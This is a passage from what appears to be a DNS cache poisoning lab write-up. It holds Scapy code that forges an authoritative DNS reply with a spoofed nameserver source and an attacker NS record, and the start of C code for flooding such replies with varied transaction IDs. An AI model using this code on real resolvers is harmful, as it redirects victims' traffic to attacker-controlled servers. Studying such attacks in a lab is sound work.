     request = ip/udp/dns
    send(request)
    # Save the packet to a file
    with open('ip_req.bin', 'wb') as f:
        f.write(bytes(request))

    # Spoofed DNS reply
    Qdsec = DNSQR(qname=name)
    Anssec = DNSRR(rrname=name, type='A', rdata="1.2.3.5", ttl=259200)
    NSsec = DNSRR(rrname=domain, type='NS', rdata=ns_attacker, ttl=259200)
    dns = DNS(id=0xAAAA, aa=1, rd=1, qr=1, qdcount=1, ancount=1, nscount=1, arcount=0,
        qd=Qdsec, an=Anssec, ns=NSsec)
    ip = IP(dst=local_dns_ip, src=ns_ip_addrs[0])
    udp = UDP(dport=33333, sport=53, chksum=0)
    reply = ip/udp/dns
    with open('ip_resp.bin', 'wb') as f:
        f.write(bytes(reply))
    ```
- Then in the C code, we will load the request packet template from `ip_req.bin`, and the spoofed response packet template from `ip_resp.bin`. 
- For each response, we will change 3 values, transaction ID (+28 offset from start of IP packet), and the prefix name, `prefix.example.com`. The prefix name occurs in 2 places, in the question section and in the answer section, which is at offset +40 and +61 respectively from the start of the IP packet.
- The C code is as below:
- ```c
    #include <stdlib.h>
    #include <arpa/inet.h>
    #include <string.h>
    #include <stdio.h>
    #include <unistd.h>
    #include <time.h>

    #define MAX_FILE_SIZE 1000000


    /* IP Header */
    struct ipheader {
    unsigned char      iph_ihl:4, //IP header length
                        iph_ver:4; //IP version
    unsigned char      iph_tos; //Type of service
    unsigned short int iph_len; //IP Packet length (data + header)
    unsigned short int iph_ident; //Identification
    unsigned short int iph_flag:3, //Fragmentation flags
                        iph_offset:13; //Flags offset
    unsigned char      iph_ttl; //Time to Live
    unsigned char      iph_protocol; //Protocol type
    unsigned short int iph_chksum; //IP datagram checksum
    struct  in_addr    iph_sourceip; //Source IP address 
    struct  in_addr    iph_destip;   //Destination IP address 
    };
